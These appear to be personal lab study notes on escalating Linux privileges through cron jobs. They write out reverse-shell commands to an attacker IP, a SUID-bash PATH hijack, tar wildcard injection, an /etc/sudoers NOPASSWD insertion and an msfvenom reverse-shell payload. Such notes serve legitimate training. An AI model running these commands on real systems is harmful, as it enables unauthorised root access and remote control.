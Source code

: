 # Cron job

## Finding Cron jobs

1. cat /etc/crontab
2. cat /etc/cron*
3. ls -lah /etc/cron*
4. `sudo crontab -l` to know current users cronjobs
5. `grep "CRON" /var/log/syslog`
6. cat /etc/cron.d
7. cat /var/spool/cron/crontabs/root
8. find weird file in /opt or maybe /tmp and check timestamp of file
9. check `ls -la` on suspicious file and check their timing
10. use pspy tool

***

## Exploit with cron job

### weak file permission

* if it has write permission then write nc into it or any other reverse shell command
* start listening from our machine
* echo > 'nc ATTACK\_IP 4444 -e /bin/sh' > /path/to/cronjob/file

![[image 2 1.png]]


![[Pasted image 20240512040122.png]]

always give `+sx` to file
```
./bash -p
```


> [!NOTE]
> * check group permission also because it happens that we are part of that group


### Path variable overtake

* check path in /etc/crontab
* create new file with written path with same name of cronjob file

![[Pasted image 20240510225707.png]]

> [!NOTE]
> * start nc listener and put reverse shell in that new file
> * other way is,
> * cp /bin/bash /tmp/bash
> * chmod +s /tmp/bash
> * also give +x permission to newly created file
> * /tmp/bash -p

![[image 3 1.png]]


#### This method is applicable only when full path were not given like `overwrite.sh`
![[Pasted image 20240510225836.png]]

### Insecure coding practice

* infinite way as it's not always promised



* here, \* is covered
* create payload and transfer
* Create these two files in /home/user

![[Pasted image 20240510230032.png]]

`touch /home/user/--checkpoint=1`

`touch /home/user/--checkpoint-action=exec=shell.elf`

#### academy way
```
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

echo "" > "--checkpoint-action=exec=sh root.sh"

echo "" > --checkpoint=1
```


> [!NOTE]
> * msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
> * chmod +x /home/user/shell.elf
> 

![[image 4 1.png]]

